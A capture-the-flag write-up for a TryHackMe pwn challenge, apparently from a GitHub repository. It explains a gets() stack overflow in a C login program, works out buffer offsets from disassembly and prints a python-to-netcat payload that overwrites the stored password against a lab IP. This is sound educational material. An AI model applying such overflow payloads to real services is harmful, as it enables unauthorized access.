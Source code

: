 # Challenge Statement
![image](https://github.com/user-attachments/assets/d1c09fa7-9694-4a49-b2b1-1ff3afad1c95)

Attachment: [pwn1.c](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/pwn1.c)

# Solution
Analyzing the given code, we see that the `login()` function calls the `print_flag()` function upon successful login.  
The two local buffers are - `char password[100] = "";` and `char username[100] = "";`  

The `login()` function reads the username input using `gets(username)`, which is vulnerable to buffer overflow.  

We also have the credentials given in the code:  
![image](https://github.com/user-attachments/assets/486242da-eee2-4267-84a9-bc4639fdfcca)

So, all we have to do is find the memory layout and overflow the **username** buffer, which can be used to overwrite the **password** buffer.  
To do this, we can compile the code and build a local executable.  
```
gcc -fno-stack-protector -z execstack -o challenge pwn1.c
```

Now, we can disassemble the file using the command:
```
objdump -d challenge > disassembly.txt
```
![image](https://github.com/user-attachments/assets/3c0fc1fc-26b9-4672-a75a-ac3e4cd2a9b7)

From the Assembly Code, we can see that a single buffer is used for both the username and the password.  
The username part is from `-0xe0` to `-0x70` and from `-0x70` is the password.  
![image](https://github.com/user-attachments/assets/d55e77e2-a582-4ec3-8f59-a6824677359d)

Thus, the username occupies 0xe0 - 0x70 = 0x70 bytes --> 112 bytes. 
So the payload will be: 
```
python3 -c "print('bytereaper' + '\x00' + 'A'*101 + '5up3rP4zz123Byte')" | nc 10.10.160.254 1337
```
![image](https://github.com/user-attachments/assets/d43219ab-8efe-4fed-9868-e43d0da100b6)
